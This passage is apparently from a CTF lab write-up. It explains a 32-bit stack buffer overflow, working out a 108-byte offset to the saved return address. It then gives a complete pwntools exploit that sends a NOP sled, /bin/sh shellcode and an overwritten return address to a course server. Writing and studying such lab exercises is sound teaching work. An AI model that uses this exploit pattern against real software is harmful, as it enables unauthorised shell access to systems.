 The white area has to do with the 100 bytes buffer. The following 4 bytes are probably padding, and the 4 bytes after those are from the `old ebp`, which is zero, but it is considered undefined as it points to the previous stack frame of the calling function. Because the main function does not have a calling function, it is considered an undefined value. Finally, the next 4 bytes are from the `return address` and the ones we want to overwrite. So, in total, our offset from the buffer's address is 100 bytes + 4 bytes of padding + 4 bytes of the `old ebp` = 108 bytes.

Our buffer overflow will then have 108 bytes of "garbage", 4 bytes of the new `return address` value which will be a value greater than `&buffer` + 112 bytes (in the code we will present next, this value is `&buffer + 124`) and will direct to the `NOPs` (0x90) before the shellcode or the beginning of the shellcode itself. Finally, the shellcode itself is made for 32 bits machines.

The developed exploit was the following:

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")

    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4001)

shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')


p.recvuntil(b" is ")

buffer_add_str = p.recvuntil(b".").decode()[:-1]

print(buffer_add_str)
buffer_add = int(buffer_add_str, base=16)

attack = bytearray(0x90 for i in range(200))

attack[(200 - len(shellcode)):] = shellcode

attack[108:112] = p32(buffer_add + 124)
print(attack)

p.recvuntil(b":\n")
p.sendline(attack)

p.interactive()
```
